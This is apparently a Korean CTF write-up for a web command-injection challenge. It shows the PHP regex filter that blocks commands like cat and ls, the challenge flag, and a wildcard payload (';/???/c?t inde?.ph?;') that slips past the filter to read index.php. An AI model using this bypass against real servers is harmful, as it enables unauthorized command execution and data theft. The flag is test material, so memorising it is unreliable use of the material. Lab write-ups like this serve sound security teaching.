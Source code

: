 # simple_cmdi

## 문제설명

웹을 통해 서버 명령을 실행하는 심플한 웹 서비스입니다.

취약점을 찾아 flag를 획득하세요.



URL : [http://ctf.skhudebug.xyz:20001](ctf.skhudebug.xyz:20001)

## 요약

- category : web
- 의도 : command injection



## Flag

`debugCTF{C0MM@ND_1NJ3CT10N_1S_V3RY_C001}`



## 문제실행방법

``docker-compose up -d --build``



## 풀이

index.php에 접근하면 리눅스 명령을 실행하는 페이지가 나온다.

기본으로 `ls -l` 명령을 제공하는데, 여기서 command injection을 트리거할 수 있다.



하지만 command injection payload를 넣으면 `no hack`문자열이 출력되는 것을 통해 필터가 존재하는 것을 알 수 있다.



### command injection 필터

```php
if(preg_match("/cat|bin|\\\|\||&|more|nl|tail|head|\^|flag|index|php|less|ls|\*|<|>|\\$|`/i", $ip))
```

대표적인 출력 명령이 필터가 걸려있다.

이를 우회하기 위해 와일드 카드 명령을 사용할 수 있다.



### payload

`;/???/c?t inde?.ph?;`